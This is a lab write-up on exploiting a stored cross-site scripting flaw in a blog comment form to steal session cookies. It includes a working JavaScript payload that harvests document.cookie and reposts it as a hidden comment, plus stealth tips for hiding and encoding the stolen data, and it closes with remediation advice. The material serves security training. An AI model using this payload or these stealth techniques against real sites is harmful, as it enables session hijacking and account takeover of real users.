 # Lab: Exploiting Stored XSS to Steal Cookies

## 1. Title & Description

This lab demonstrates how a **stored cross-site scripting (XSS)** vulnerability in a blog comment feature can be exploited to steal a victim’s session cookie and impersonate them.

---

## 2. Vulnerability Overview

* User input in comments is stored and rendered **without sanitization**.
* This allows **arbitrary JavaScript injection**.
* A visiting victim executes attacker-controlled code in their browser.

---

## 3. Proof of Concept (PoC)
```html
<script>
    window.addEventListener("DOMContentLoaded",function () {
        var form = document.querySelector('.add-comment form');

        var data = new FormData(form);
        var sessioncookie = document.cookie.split('; ').find(c=>c.startsWith('session='));

        data.append('comment',"<span style='display:none'>"+sessioncookie+"</span>");
        data.append('name','victim');
        data.append('email','test@me.com');
        data.append('website','http://test');

        fetch(form.action,{
            method:"POST",
            mode:"no-cors",
            body:data,
            credentials:"include"
        })
    })
</script>
```
**Screenshot suggestion:**

![Injected payload in the comment form.](Images/Payload.png)
![Network tab showing the forged POST request.](Images/NetworkTab.png)
![Blog post page showing the hidden comment containing the stolen session cookie.](Images/Comment.png)

---

## 4. Exploit Workflow

1. Attacker posts the payload as a comment.
2. Victim views the blog post.
3. Victim’s browser executes the attacker’s script.
4. Script exfiltrates the victim’s session cookie by posting it back as a hidden comment.
5. Attacker reads the victim’s cookie, imports it into their browser, and hijacks the session.

---

## 5. Stealth Considerations

* The PoC stores the cookie in a visible comment (loud).
* Stealthier options include:

  * Use `display:none` to hide the stolen data.
  * Exfiltrate via a benign-looking field (e.g., `website`).
  * Encode the cookie before sending (`btoa`).
  * In real attacks, exfiltrate data to an attacker-controlled server (blocked in this lab).

---

## 6. Impact

* Full account takeover via stolen session ID.
* CSRF protections are bypassed, as the CSRF token is accessible.
* Trust in the application is broken (stored XSS affects all future visitors).

---

## 7. Remediation

* **Contextual output encoding:** escape user input before rendering.
* **HttpOnly cookies:** prevent JavaScript access to sensitive cookies.
* **Content Security Policy (CSP):** restrict where scripts can execute.
* **Input validation & sanitization:** prevent injection of arbitrary scripts.

---

## 8. Reflection

This lab demonstrates how a seemingly simple XSS bug can escalate into full account takeover.
Adding `HttpOnly` to session cookies alone would have prevented cookie theft, but the root cause is **unsafe rendering of untrusted input**.
This highlights why secure coding practices and **defense-in-depth** are critical.

